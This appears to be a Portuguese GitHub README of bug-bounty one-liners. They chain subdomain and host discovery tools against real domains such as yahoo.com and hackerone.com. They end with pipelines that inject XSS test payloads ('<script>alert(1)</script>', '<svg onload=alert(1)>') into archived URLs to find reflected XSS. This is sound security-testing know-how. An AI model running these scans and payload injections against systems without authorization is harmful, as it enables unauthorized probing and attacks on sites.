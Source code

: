 # Liners_bounty
UMA SÉRIE DE ONELINERS PARA BUG BOUNTY

[Blog do Eike](https://ei7hacker.blogspot.com/)

[HTTPX](https://github.com/projectdiscovery/httpx)

[SUBFINDER](https://github.com/projectdiscovery/subfinder)

[HTTPROBE](https://github.com/tomnomnom/httprobe)

[ASSETFINDER](https://github.com/tomnomnom/assetfinder)

[ANEW](https://github.com/tomnomnom/anew)

[waybackurls](https://github.com/tomnomnom/waybackurls)

[FREQ](https://github.com/takshal/freq)

[AIRIXSS](https://github.com/ferreiraklet/airixss)

### subdominios
```bash
 subfinder -d yahoo.com -o domains ; echo "yahoo.com" | assetfinder | tee -a domains ; wait ; cat domains | anew subs
```
### hosts 
```bash
subfinder -d hackerone.com | httpx  -o hosts

echo "hackerone.com" | assetfinder | httprobe | tee -a hosts

```
### status-code 
```bash
subfinder-d yahoo.com | httpx -status-code

subfinder-d yahoo.com | httpx -status-code -mc 200

subfinder-d yahoo.com | httpx -status-code -mc 300
```
### FIND XSS WITH FREQ AND QSREPLACE

```bash
echo "exemplo.com" | waybackurls | grep "=" | qsreplace "<script>alert(1)</script>" | freq 
```
### FIND WITH AIRIXSS

```bash
echo "exemplo.com" | waybackurls | gf xss | qsreplace "<svg onload=alert(1)>" | Airixss -payload "alert(1)" | egrep -v "Not"
```
